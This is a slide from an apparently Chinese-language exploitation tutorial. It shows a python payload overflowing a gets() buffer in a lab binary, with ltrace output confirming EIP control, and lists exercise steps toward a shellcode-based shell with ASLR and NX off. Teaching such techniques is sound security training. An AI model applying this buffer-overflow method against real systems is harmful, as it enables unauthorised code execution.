

57￼
root@Ubuntu : tmp ➤ python -c "print 'a'*13+'bbbb'"|ltrace -if ./easy
[pid 6235] [0x8048331] __libc_start_main(0x8048427, 1, 0xffff6b54, 0x8048450 <unfinished ...>
[pid 6235] [0x804841d] gets(0xffff6a8f, 0xf76dd000, 0xf76db244, 0xf75430ec)                                = 0xffff6a8f
[pid 6235] [0x62626262] --- SIGSEGV (Segmentation fault) ---
[pid 6235] [0xffffffffffffffff] +++ killed by SIGSEGV +++
完整控制EIP!
練習(no ASLR, no NX)
找出溢出點
使用shellcode
Get shell